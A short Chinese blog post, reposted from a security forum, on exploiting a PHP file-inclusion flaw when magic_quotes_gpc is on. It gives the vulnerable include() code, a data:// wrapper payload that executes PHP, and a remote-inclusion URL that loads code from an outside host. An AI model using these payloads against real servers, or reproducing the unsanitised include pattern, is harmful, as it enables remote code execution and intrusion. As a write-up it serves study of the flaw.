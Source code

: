 ```yaml
---
title: 开启GPC情况下本地包含
date: 2013-11-19 14:50
tags: php
---
```


>文章于 2013-11-19 发表于**t00ls**
[开启GPC情况下本地包含](https://www.t00ls.net/thread-24941-1-1.html)


漏洞代码:
```php
$langx=$_REQUEST['langx'];
include ($langx.".inc.php");
```
环境：
```text
magic_quotes_gpc        On
allow_url_fopen        On
allow_url_include        On

PHP Version 5.3.3-7
Apache 2.0
Linux debian 2.6.32-5-amd64
```

`GPC` 为`on`
`%00` 截断？  超长 `././` 
都不行

post 或get方式提交
`langx=data://text/plain,<?php phpinfo();?>`

相当于 包含了一个内容为 `<?php phpinfo();?>.inc.php`的文件

所以不用考虑截断
成功执行!

测试：
```
allow_url_fopen        Off  
allow_url_include        On  
```
**包含失败**
```
allow_url_fopen        On    
allow_url_include        Off
```
**包含失败**



依赖条件：
```
allow_url_fopen        On
allow_url_include        On
PHP 5.2.0 以上
```

>利用场景：php 版本过高(大于php5.3.4 NULL截断失效)或开启GPC 导致截取失效, 但恰好服务器 php.ini allow_url_fopen、allow_url_include 都配置为on
不过 很少有服务器同时 开启这两个

更多方式期待大家测试与交流

补充：

远程放一个 `xx.inc.php`
利用：`http://target_site/include.php?xx=http://xxoo.com/xx`
利用场景更宽